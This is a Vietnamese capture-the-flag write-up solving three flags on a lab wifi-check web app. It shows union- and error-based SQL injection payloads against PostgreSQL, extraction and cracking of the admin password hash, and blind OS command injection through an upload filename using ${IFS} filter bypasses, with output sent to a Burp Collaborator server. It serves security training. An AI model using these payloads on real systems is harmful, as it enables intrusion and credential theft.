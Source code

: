# Final Exam Blind Hacking 0x04 & 0x05
Challenge có 3 flag trong một trang web.
Dạo quanh 1 vòng web thì mình thấy web này là chức năng là check wifi đã bị hack hay chưa  ? 
## INFORMATION GATHERING 
 mình dùng wappalyzer detect được back-end nó dùng python (Flask)
 
 ![Alt text](image.png)
 Mình dùng dirsearch để kiểm enpoint ẩn 
 Ngoài một số module trên web hiển thị ra thì mình thấy có vài enpoint mới ! 
 
 ![Alt text](image-1.png)
 biết đâu mình sẽ cần tới nó :>> 

## Vào bài 

### Flag1
 ** Tác giả nói flag nằm database thì chắc chắn là sqli rồi**
 Mò từng chắc năng thì mình thấy chức năng **Login,Register,Search** là có khả năng dính sqli nhất 

Theo tổ tiên mắc bảo mình sẽ focus vào chức năng *Seach* trước 
![Alt text](image-2.png)

từ containts cho mình linh cảm nó đang dùng từ khóa ```Like``` để tìm kiếm ! 
Thử trigger lỗi nó bằng cách thêm "  hoặc ' 

![Alt text](image-3.png)
vậy là nó vẫn có tính năng debugg! 
Mình thử payload khác : 
```1' or 1=1 --```

![Alt text](image-4.png)
và đã thành công , từ những thứ trên mình có thể hình dùng được 2 loại SQLi 
đó là Union base và Error Base .

Bước tiếp theo là detect xem nó đang chạy ngôn ngữ SQL nào để chuẩn bị cho quá trình exploit.
Vì ở đây nó có trả ra value nên mình sẽ sử dụng **UNION BASE** \n
=> Xác định số cột (Ở đây mình ko dùng order by được vì trong câu nó đã có order by rồi )
Mình sử dụng group by để xác định số cột 
mình thử 14 cột vào nó báo là cột thứ 14 không tồn tại 

![Alt text](image-5.png)
giảm payload xuống 13 
và đã success , mình đã comfirm được nó có 13 cột trong câu truy vấn thứ nhất , từ bảng accesspoint 
và mình có hint từ tác giả , bảng *accessoint* như sau :
![Alt text](image-6.png)

vì câu truy vấn của nó là * TỪ accsetpoint nên mình phải tham chiếu theo kiểu dữ liệu của nó để chèn cho hợp lý ! 
Nếu chèn ngẫu nghiên thì nó sẽ log lỗi kiểu dữ liệu ko phù hợp 
![Alt text](image-7.png)

payload:``` 1' UNION SELECT 1,2.2,33.3,'a','b','c','d','a','e','f','2021-12-03','h','j' --```
![Alt text](image-8.png)

các vị trí mình đánh dấu là value trả ra ngoài chúng ta có thể inject vào vị trí đó để extract được data trong db !
Bước đầu : chúng ta sẽ detecd ngôn ngữ sql nó đang chạy 
Các bạn có thể tham khảo payload ở đây [SQL CHEET SHEET](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Alt text](image-9.png)

và SQL nó dùng là  : *PostgreSQL*
Bước tiếp theo là lấy hết table trong database 
payload: 
```
SELECT STRING_AGG(table_name, ', ') FROM information_schema.tables
```
phải dùng String_AGG để đưa output của mình thành string , ko nó sẽ log lỗi vì mình return thêm 1 cột :
và ta đã phát hiện trong đó có một cột tên là *flagn8jdj* 

![Alt text](image-10.png)

giờ thì lấy ra column của table đó rồi extract value : 

![Alt text](image-11.png)

![Alt text](image-12.png)

#### FLAG 
 ```
 CHH{r4W_SeArCH_SQL1njection_PostgreSQL}
 ```


#### FLAG2
 viết hơi dài mỏi tay :> flag2 là password của admin trong bảng users nhé ( lúc trong thời gian làm bài mình làm cách khó hơn đó là trigger error base -> không hiểu sao lại đi chọn cách khó hơn )
 Nói về cách trigger ERROR base : 
 PAYLOAD : 
 ```
 1' and 1=(SELECT CASE WHEN(1=1) THEN 1/(SELECT 0) ELSE NULL END) --
 ```
 1=1 luôn luôn đúng nó sẽ trigger được lỗi chia cho 0 
 
 ![Alt text](image-13.png)

 giờ mình đầu tiên sẽ thử LENGTH(password)=64  , nếu đúng thì dòng chữ division by zero sẽ xuất hiện 
 ý tưởng cơ bản là vậy ( kiểm tra từng chữ cái trong password rồi khớp lại)

 Chúng ta sẽ nói về cách dễ hơn vì union trả về value mà : >
![Alt text](image-15.png)
chúng ta kiểm tra role thấy chỉ có hai quyền là user và admin 
giờ lấy password ra thôi  : 
payload : 
```
(SELECT STRING_AGG(password, ', ') FROM users where role='admin' )
```
![Alt text](image-16.png)
dehash password chúng ta sẽ có flag => 64 kí tự thì ko phaỉ md5 rồi , còn sha1,sha256 
dehash sha256 : basketball -> login
#### flag
```
CHH{CR4CKEd_SHA256_LogiN_AdMInistra0r}
```

### FLAG 3
đề bảo đọc file thì liên quan đến os command hoặc upload shell code 
sau một hồi mò thì mình biết file được lưu ở /static/uploads/  nhưng phương án upshell code bất khả thi nên mình quay ra hướng os command ( xin hint từ author)

enpoint dính lỗi là : upload file pcap 
inject payload vào phần filename  : nó filter / và space  
${home:0:1} : /  đây là biến môi trường trong linux : 0,1 chính là substring 
${IFS} : space 

![Alt text](image-17.png)
có request tới burp chứng tỏ mình đã inject đúng chỗ (vì đây là blind nên mình cần gửi file FLAGXXXX.txt qua server của mình)
giờ mình cần tìm được tên flag rồi gửi nó qua server mình thôi , lưu ý có hai flag 1 cái là *flag.txt* và 1 cái *flagXXXX.txt* chính vì flag.txt là empty nên cat /flag*.txt sẽ bị ngắt và ko có gì 
Có hai cách : 
Cách 1  :  
  ```
  cd / ; ls > b.txt
  ```
  rồi gửi nó sang burp collaborator 
  ![Alt text](image-18.png)
Cách 2 : 
dùng grep regex để bắt mỗi tên flag thứ 2  để gửi qua param 
```
ls / | grep -E '^flag[A-Za-z0-9]+\.txt$'
```
![Alt text](image-19.png)

giờ nhiệm vụ chỉ còn là gửi file đó qua server của mình ! 
![Alt text](image-20.png)

#### flag 
```
CHH{fiN4L_Ex4M_k04_K05_flag_8d6c3a0f34a76cb8cdf3cedf132c257c}
```